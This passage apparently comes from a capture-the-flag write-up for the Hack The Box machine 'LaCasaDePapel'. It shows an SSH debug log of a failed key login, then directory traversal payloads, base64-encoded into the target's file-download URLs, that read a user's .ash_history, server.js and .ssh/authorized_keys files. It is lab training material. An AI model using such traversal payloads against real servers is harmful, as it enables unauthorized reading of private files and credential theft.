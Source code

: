 ```
debug1: SSH2_MSG_KEXINIT received
debug1: kex: algorithm: curve25519-sha256
debug1: kex: host key algorithm: ecdsa-sha2-nistp256
debug1: kex: server->client cipher: chacha20-poly1305@openssh.com MAC: <implicit> compression: none
debug1: kex: client->server cipher: chacha20-poly1305@openssh.com MAC: <implicit> compression: none
debug1: expecting SSH2_MSG_KEX_ECDH_REPLY
debug1: Server host key: ecdsa-sha2-nistp256 SHA256:rA99W+GVzo0hlABp1vMj9ChhjLwybPhHTpb65AWm7xI
debug1: Host '10.10.10.131' is known and matches the ECDSA host key.
debug1: Found key in /home/lotape6/.ssh/known_hosts:35
debug1: rekey out after 134217728 blocks
debug1: SSH2_MSG_NEWKEYS sent
debug1: expecting SSH2_MSG_NEWKEYS
debug1: SSH2_MSG_NEWKEYS received
debug1: rekey in after 134217728 blocks
debug1: Will attempt key: berlin@lacasadepapel.htb RSA SHA256:99ZbBx61cCbXPTGK7T2S8CwE1pR+zcAEW8211kEK6Nw agent
debug1: Will attempt key: lotape6@mohoyoyo RSA SHA256:M3o2EKSs1DmVDimtd4CEQC5qZA47X4IopVOoJ/rN0KU agent
debug1: Will attempt key: /home/lotape6/.ssh/readme
debug1: SSH2_MSG_EXT_INFO received
debug1: kex_input_ext_info: server-sig-algs=<ssh-ed25519,ssh-rsa,rsa-sha2-256,rsa-sha2-512,ssh-dss,ecdsa-sha2-nistp256,ecdsa-sha2-nistp384,ecdsa-sha2-nistp521>
debug1: SSH2_MSG_SERVICE_ACCEPT received
debug1: Authentications that can continue: publickey,password,keyboard-interactive
debug1: Next authentication method: publickey
debug1: Offering public key: berlin@lacasadepapel.htb RSA SHA256:99ZbBx61cCbXPTGK7T2S8CwE1pR+zcAEW8211kEK6Nw agent
debug1: Authentications that can continue: publickey,password,keyboard-interactive
debug1: Offering public key: lotape6@mohoyoyo RSA SHA256:M3o2EKSs1DmVDimtd4CEQC5qZA47X4IopVOoJ/rN0KU agent
debug1: Authentications that can continue: publickey,password,keyboard-interactive
debug1: Trying private key: /home/lotape6/.ssh/readme
debug1: Authentications that can continue: publickey,password,keyboard-interactive
debug1: Next authentication method: keyboard-interactive
debug1: Authentications that can continue: publickey,password,keyboard-interactive
debug1: Next authentication method: password

```

Let's get back to the filesystem to find sensitive data:

```
../../../../../../../home/berlin/.ash_history
https://lacasadepapel.htb/file/Li4vLi4vLi4vLi4vLi4vLi4vLi4vaG9tZS9iZXJsaW4vLmFzaF9oaXN0b3J5
0 B

../../../../../../../home/berlin/server.js
https://lacasadepapel.htb/file/Li4vLi4vLi4vLi4vLi4vLi4vLi4vaG9tZS9iZXJsaW4vc2VydmVyLmpz
nothing new

../../../../../../../home/berlin/.ssh/known_hosts
https://lacasadepapel.htb/file/Li4vLi4vLi4vLi4vLi4vLi4vLi4vaG9tZS9iZXJsaW4vLnNzaC9rbm93bl9ob3N0cw==

../../../../../../../home/berlin/.ssh/authorized_keys
https://lacasadepapel.htb/file/Li4vLi4vLi4vLi4vLi4vLi4vLi4vaG9tZS9iZXJsaW4vLnNzaC9hdXRob3JpemVkX2tleXM=
https://lacasadepapel.htb/file/
https://lacasadepapel.htb/file/
https://lacasadepapel.htb/file/

```
